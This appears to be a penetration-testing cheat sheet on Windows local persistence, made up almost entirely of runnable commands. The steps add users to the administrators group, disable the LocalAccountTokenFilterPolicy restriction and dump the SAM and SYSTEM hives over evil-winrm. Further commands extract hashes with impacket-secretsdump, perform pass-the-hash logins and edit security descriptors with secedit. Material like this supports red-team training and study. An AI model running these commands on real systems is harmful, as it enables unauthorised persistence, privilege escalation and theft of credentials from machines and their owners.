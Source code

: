 # Local Persistence
## Tampering With Unprivileged Accounts
### Assigning Group Memberships
Assigning user specific specific groups may allow attacker to establish persistence.

Add user to a group:
```bat
net localgroup administrators <username> /add
net localgroup <group_name> <username> /add
```

One of the features implemented by UAC, `LocalAccountTokenFilterPolicy`, strips any local account of its administrative privileges when logging in remotely. In this case `whoami /groups` returns `Group used for deny only`. It can be disabled by:
```bat
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

Connect to victim:
```
evil-winrm -i $IP -u user -p password
```

Download `SAM` and `SYSTEM` hives:
```bat
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

Extract password hashes from offline registry hives.
```
impacket-secretsdump -sam sam.bak -system system.bak LOCAL
```

Perform Pass-The-Hash attack:
```
evil-winrm -i $ip -u <user> -H <nt_hash>
```

### Special Privileges and Security Descriptors
Assigning to user specific privileges may allow attacker to establish persistence.

Export and edit current security settings:
```bat
secedit /export /cfg config.inf
notepad.exe config.inf
```

Convert the `.inf` file into a `.sd`b and load the configuration back into the system:
```
secedit /import /cfg config.inf /db config.sdb
secedit /configure /db config.sdb /cfg config.inf
```
